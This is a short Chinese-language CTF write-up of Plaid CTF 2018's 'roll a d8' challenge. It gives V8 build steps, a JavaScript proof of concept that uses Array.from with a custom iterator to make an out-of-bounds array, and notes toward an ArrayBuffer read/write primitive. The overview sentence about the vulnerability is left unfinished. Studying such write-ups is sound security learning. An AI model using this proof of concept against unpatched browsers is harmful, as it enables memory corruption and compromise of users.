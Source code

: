 ```yaml
---
layout: post
title:  "roll a d8"
categories: pwn
tags: browser
excerpt: roll a d8
mathjax: true
---
```


* content
{:toc}

### Overview
这道题是Plaid CTF 2018 的roll a d8 
题目的漏洞点在于

### 环境准备

git reset --hard 1dab065bb4025bdd663ba12e2e976c34c3fa6599
gclient sync
tools/dev/v8gen.py x64.release

ninja -C out.gn/x64.release

### POC

```
let oobArray = [1.1];
let maxSize = 1028 * 8;
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ => (
  {
    counter : 0,
    next() {
      let result = this.counter++;
      if (this.counter > maxSize) {
        oobArray.length = 1;
        return {done: true};
      } else {
        return {value: result, done: false};
      }
    }
  }
) });
console.log(oobArray)
```

首先看Array.from 的功能

`The Array.from() method creates a new, shallow-copied Array instance from an array-like or iterable object.`

```c
console.log(Array.from('foo'));
// expected output: Array ["f", "o", "o"]

console.log(Array.from([1, 2, 3], x => x + x));
// expected output: Array [2, 4, 6]
```

this 指针是函数 `function() { return oobArray }`


### 漏洞利用

JS object 内存布局 Floating Point Number Array

```
gdb ./d8
set args --allow-natives-syntax

d8> a = [1.1,2.2,3.3]
[1.1, 2.2, 3.3]
d8> %DebugPrint(a)
```


oobArray 是一个double 数组，长度要比真实长度要长
如果我们可以放一个ArrayBuffer 到 浮点数fast array 后面，就可以通过oobArray读写kBackingStoreOffset ，利用堆风水



CTF题目

[rollad8-Anciety](https://www.anquanke.com/post/id/147829#h3-16)  
https://xz.aliyun.com/t/5190
https://mem2019.github.io/jekyll/update/2019/07/12/Roll-A-D8.html


漏洞
https://mem2019.github.io/jekyll/update/2019/09/05/Problems-About-Expm1.html
https://abiondo.me/2019/01/02/exploiting-math-expm1-v8/#the-bug
